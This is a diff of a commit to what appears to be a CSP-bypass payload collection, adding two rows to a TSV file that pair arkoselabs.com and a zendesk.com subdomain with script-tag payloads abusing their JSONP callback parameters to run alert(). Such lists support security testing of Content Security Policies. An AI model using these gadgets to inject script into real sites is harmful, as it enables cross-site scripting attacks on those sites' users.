

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; the shorter side is filled out with more unchanged rows; long unchanged cells end in …; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Added zendesk and arkoselabs by joaxcar

```diff
--- a/data.tsv
+++ b/data.tsv
+row 37: client-api.arkoselabs.com | <script src="https://client-api.arkoselabs.com/fc/a/?callback=alert"></script>
+row 91: thiscanbeanything.zendesk.com | <script src="https://thiscanbeanything.zendesk.com/sc/faye/?message=[{%22channel%22:%22%22}]&jsonp=alert"></script>
```
Also changed, not shown: 1 other file.
